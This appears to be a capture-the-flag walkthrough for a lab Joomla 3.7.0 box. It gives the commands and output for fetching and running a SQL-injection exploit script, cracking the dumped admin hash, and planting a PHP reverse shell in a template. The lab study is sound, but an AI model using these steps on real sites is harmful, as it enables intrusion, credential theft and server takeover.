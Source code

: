 > What is the Joomla version?

`3.7.0`

PoC:

`http://10.10.140.132/administrator/manifests/files/joomla.xml`

> What is Jonah's cracked password?

`spiderman123`

PoC:

```bash
wget https://raw.githubusercontent.com/stefanlucas/Exploit-Joomla/refs/heads/master/joomblah.py
python3 joomblah.py http://10.10.140.132:80
```

```
 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```

`echo "$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm" > jonah.txt`

`john --wordlist=/usr/share/wordlists/rockyou.txt jonah.txt`

**Reverse Shell**

change beez3 template's index.php file with php-reverse-shell.php (pentestmonkey)

`http://10.10.140.132/administrator/index.php?option=com_templates&view=template&id=503&file=L2luZGV4LnBocA`

then load http://10.10.140.132/index.php

```
sh-4.2$ pwd
/var/www/html
pwd
sh-4.2$ ls
ls
LICENSE.txt
README.txt
administrator
bin
cache
cli
components
configuration.php
htaccess.txt
images
includes
index.php
language
layouts
libraries
media
modules
plugins
robots.txt
templates
tmp
web.config.txt
sh-4.2$
```